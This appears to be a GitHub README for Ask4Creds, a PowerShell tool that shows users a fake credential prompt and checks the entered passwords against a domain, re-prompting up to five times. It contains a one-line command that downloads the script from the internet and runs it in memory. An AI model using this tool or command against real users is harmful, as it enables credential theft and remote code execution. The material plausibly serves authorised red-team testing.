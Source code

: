 # Ask4Creds
Prompt User for credentials

Ask4Creds is designed to prompt users for their credentials. It features a graphical user interface for credential input, with capabilities to validate these credentials against a domain.

The script attempts to validate credentials up to 5 times. After each unsuccessful attempt, the user is prompted again.

A timer is set to automatically close the form after a specified timeout period (30 seconds)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Ask4Creds/main/Ask4Creds.ps1')
```

![image](https://github.com/Leo4j/Ask4Creds/assets/61951374/be7b23bb-f6b3-4f8b-bd27-e39556036da7)

